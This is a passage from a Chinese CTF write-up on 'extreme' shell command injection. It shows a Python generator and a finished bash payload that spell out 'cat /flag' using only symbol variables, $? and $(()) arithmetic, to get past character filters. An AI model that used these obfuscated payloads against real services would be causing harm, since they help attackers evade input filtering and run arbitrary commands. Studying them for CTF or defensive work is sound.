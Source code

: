 成功执行。

利用脚本：

```
cmd='cat /flag'

payload='__=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\\<\\<\\<\\$\\\''
for c in cmd:
        payload+=f'\\\\$((2#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${__}').replace('2','${____}').replace('0','${_____}')

payload+='\\\''

print(payload)
```

## 利用$(())构造

利用$(())构造是g4师傅出的极限命令执行最后的预期解，不过g4师傅使用的是按位取反的方法构造出了payload，我这里给出一种不用取反的payload。

linux里可以通过`__=$(())`的方式将变量的值设置为0：

![img](assets/23.png)

有了0我们自然可以像利用$?进行构造的方式一样通过自增继续构造：

```
__=$(())&&___=$((++__))&&____=$((++___))&&_____=$(())&&${!_____}<<<${!_____}\<\<\<\$\'\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${__}${__}))\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${_____}${__}))\\$((${____}#${__}${_____}${__}${_____}${_____}${__}${_____}${_____}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}))\\$((${____}#${__}${__}${__}${_____}${_____}${__}))\\$((${____}#${__}${_____}${_____}${__}${_____}${_____}${__}${_____}))\\$((${____}#${__}${_____}${_____}${__}${__}${_____}${__}${_____}))\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${_____}${__}))\\$((${____}#${__}${_____}${_____}${__}${_____}${_____}${__}${__}))\'
```

![img](assets/24.png)

同样的，POST的话记得编码一下：
